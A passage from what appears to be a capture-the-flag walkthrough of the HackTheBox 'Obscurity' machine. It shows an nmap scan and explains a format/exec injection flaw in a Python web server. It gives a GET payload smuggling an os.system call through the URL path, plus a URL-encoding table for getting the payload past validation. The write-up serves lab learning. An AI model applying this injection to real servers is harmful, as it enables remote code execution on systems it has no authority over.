 ```kali$  nmap -sC -sV 10.10.10.168```
            docRoot = os.path.join(cwd, docRoot)
	...
```

There’s clearly a coding error there that allows remote code execution (RCE). We just need to get the payload past the verification performed elsewhere in the code, via the URL path. To do this, I copied the server code and added the appropriate lines to start it, so I could host it locally and print the path I was receiving at that point in the code:

```python
srv=Server("127.0.0.1",4444)
srv.listen()
```

![](images/Obscurity_6.png?raw=true)

As you can see in the image, at this point I have everything up and running to attempt an RCE.

```
GET /index.html';os.system('echo whatever');output='Document: index.html
```

The reasoning behind this is that I would want the ```format``` command to transform the info variable into the following, so that when executed by the ```exec``` command it would also run my ```os.system``` command:

```python
info = "output = 'Document: {}'"
info.format(path)
# info = “output = 'Document: index.html';os.system('echo whatever');output='Document: index.html'”
```

Trying this GET request in my locally hosted server should have made it echo the word “whatever”. However, I wasn’t achieving it. I finally realized that I needed to URL encode almost everything (parentheses and quotes included). To easily find URL encoding, look at the third column in command ```man ascii```

| Character  | URL encoding |
| ------------- | ------------- |
| Space  | %20  |
| “  | %22  |
| ‘  | %27  |
| (  | %28  |
| )  | %29  |
| /  | %2F  |
| :  | %3A  |
| ;  | %3B  |
| =  | %3D  |
